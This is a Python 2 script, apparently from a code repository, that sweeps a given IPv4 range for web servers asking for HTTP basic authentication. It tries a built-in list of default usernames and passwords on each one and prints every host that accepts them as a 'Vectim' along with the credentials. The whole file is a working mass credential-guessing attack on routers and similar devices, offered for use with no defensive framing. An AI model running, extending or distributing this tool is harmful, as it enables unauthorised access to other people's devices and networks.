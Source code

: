# python
#!/usr/bin/python

from socket import * 
import socket 
import string  
from termcolor import colored , cprint 
import urllib 
import urllib2 
import requests

def up (host):
  try:
      r = requests.head("http://%s/"%(host),timeout=0.09)
      if (r.status_code == 401):
      	return True
      else:
        return False
  except requests.ConnectionError:
        return False
  except requests.exceptions.ReadTimeout:
  	    return False


def vulner (host,user,passwd):
  try:	
	r = requests.get("http://%s/"%(host), auth=(user, passwd),timeout=0.09)
	if (r.status_code==200):
		return True
	else:
		return False
  except requests.ConnectionError:
  	return False
  except requests.exceptions.ReadTimeout:
  	    return False      


username = ["admin","user","username","1234","ADSL","root",
            "tech","adm","manager","operator","security"]


password = ["admin","","user","username","ADSL","1234","operator","security","tech","manager"
            "adm","root","toor","1234admin","PASSWORD"]

intro = '''

 _      sunakida@live.fr      _____     _           
(_)__   __ _  __ _  ___      | ____|___| |__   ___  
| / __|/ _` |/ _` |/ __|     |  _| / __| '_ \ / _ \ 
| \__ \ (_| | (_| | (__      | |__| (__| | | | (_) |
|_|___/\__,_|\__,_|\___|     |_____\___|_| |_|\___/  
                                                


'''

cprint (intro,'red',attrs=['bold'])

cprint ('You Want To test From  :  ','green',attrs=['bold'],end = "") ; address1 = raw_input ()

cprint ('=================> To  :  ','green',attrs=['bold'],end = "") ; address2 = raw_input ()




Host1 = address1.split('.')
Host1[3] = int (Host1[3])
Host1[2] = int (Host1[2])

Host2 = address2.split('.')
Host2[2] = int(Host2[2])
Host2[3] = int (Host2[3])
while  Host1[2] < Host2[2]:

     while Host1[3] <= 255:
         Host1[3] = str(Host1[3])
         Host1[2] = str(Host1[2])
         hosup = ('.').join(Host1)
         
         if up(hosup):
         	for userz in username:
         		for passw in password:
         			if vulner(hosup, userz, passw):

         				cprint ("We have  A new  Vectim  :%s"%(hosup),'green',attrs=['bold'])
         				print "\n"
         				cprint ("username is ==> %s"%(userz),'red',attrs=['bold'])
         				print "\n"
         				cprint ("password is ==> %s"%(passw),'red',attrs=['bold'])
         				print "\n"


         Host1[3] = int (Host1[3])
         Host1[3] +=1
     Host1[3] =0
     Host1[2] = int(Host1[2])
     Host1[2]+=1

Host1[2] = str(Host1[2])
while Host1[3]<=Host2[3]:
	Host1[3] = str(Host1[3])
	hosup = ('.').join(Host1)


	if up(hosup):
         	for userz in username:
         		for passw in password:
         			if vulner(hosup, userz, passw):
         				cprint ("We have  A new  Vectim  :%s"%(hosup),'green',attrs=['bold'],end = "")
         				print "\n"
         				cprint ("username is ==> %s"%(userz),'red',attrs=['bold'],end = "")
         				print "\n"
        				cprint ("password is ==> %s"%(passw),'red',attrs=['bold'],end = "")
        				print "\n"

	Host1[3] = int (Host1[3])
	Host1[3] +=1


